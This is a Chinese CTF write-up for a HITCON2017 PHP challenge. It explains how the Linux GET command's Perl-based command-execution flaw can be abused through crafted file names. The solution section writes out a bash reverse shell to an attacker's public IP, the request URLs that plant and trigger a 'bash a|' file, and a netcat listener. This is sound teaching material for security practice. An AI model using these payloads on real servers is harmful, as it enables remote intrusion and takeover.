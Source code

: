 ```yaml
---
题目地址：（HITCON2017）题目并不是你想要的http://117.50.3.97:8004
---
```

 
直接点开源码，读一下
```
<?php 
    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);   //定义一个路径
    @mkdir($sandbox);  //创建路径
    @chdir($sandbox);  //切换到这个路径

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));  // escapeshellarg是将字符转码成可以再命令行里面执行的 会转义单引号，只能传递一个参数不能执行不同的命令
    $info = pathinfo($_GET["filename"]); //返回路径中有关信息会返回一个数组，里面有文件名，路径，文件后缀等等信息，比如/etc/httpd/conf/httpd.conf 返回的dirname里面就是/etc/httpd/conf
    $dir  = str_replace(".", "", basename($info["dirname"]));   //basename返回路径中文件名的部分 接着上面的例子  basename($info["dirname"])的结果就是conf
    @mkdir($dir); //创建路径
    @chdir($dir); //切换到路径
    @file_put_contents(basename($info["basename"]), $data); //将data写到basename($info["basename"])文件里面
    highlight_file(__FILE__); 
```
测试上传写php一句话无效，上传的目录里面根本不解析php

相关知识点：
> linux GET命令可用于向WWW服务器和本地文件系统发送请求。从stdin读取POST和PUT方法的请求内容。响应的内容打印在stdout上。错误消息打印在stderr上。程序返回一个状态值，指示失败的URL数。
详情可以参考：https://www.lifewire.com/get-linux-command-4093526
**注意这里面GET是可以GET本地文件的**
而GET命令有一个命令执行的漏洞：
![title](https://i.loli.net/2019/04/26/5cc2f761b3aa3.jpg)
[GET的命令执行漏洞](https://err0rzz.github.io/2017/11/14/GET%E7%9A%84%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/) 这个博客里面做了比较详细的分析，是因为perl的open可以执行命令 而GET命令刚好使用了这个函数

# 解题思路 
使用写入名为`xx|`的bash脚本，利用GET命令的命令执行来执行脚本payload如下：
```
先在公网vps web目录下写入反弹shell一句话
bash -i >& /dev/tcp/公网IP/公网端口 0>&1
然后写入一个的文件
http://117.50.3.97:8004/?url=http://ipv4.ssssdl.xyz/aa.txt&filename=a
写入bash a|文件，相当于例子中的touch id|
http://117.50.3.97:8004/?url=&filename=bash a|
公网服务器监听端口反弹shell
nc -lv
命令执行
```


